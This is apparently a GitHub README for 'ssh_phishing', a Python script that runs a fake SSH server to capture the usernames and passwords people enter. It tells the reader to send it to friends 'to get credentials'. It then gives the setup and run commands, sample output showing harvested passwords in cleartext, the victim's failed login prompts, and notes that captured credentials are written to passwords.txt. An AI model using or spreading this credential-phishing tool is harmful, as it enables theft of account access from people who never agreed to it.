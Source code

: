# ssh_phishing

A python script that creates a dummy ssh server. Send to your friends to get credentials.

To generate a key use: `ssh-keygen -t rsa -b 4096 -C 'bre@rodri.guez' -f rsa_key`

Run with the key file and port as argument: `python3 ssh_phishing.py rsa_key 6666`

### The server
```
$ python ssh_phishing.py rsa_key 6666
Waiting for connections on port 6666...
Connection from: 127.0.0.1
Waiting for authentication...
Username: m.user
Password: my_pass
------------------------------
Username: m.user
Password: 123456
------------------------------
Username: m.user
Password: 123456
```

### The victim
```
$ ssh m.user@localhost -p 2222
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
m.user@localhost: Permission denied (password).
$
```

Output is saved to a file in the current working directory called `passwords.txt`.
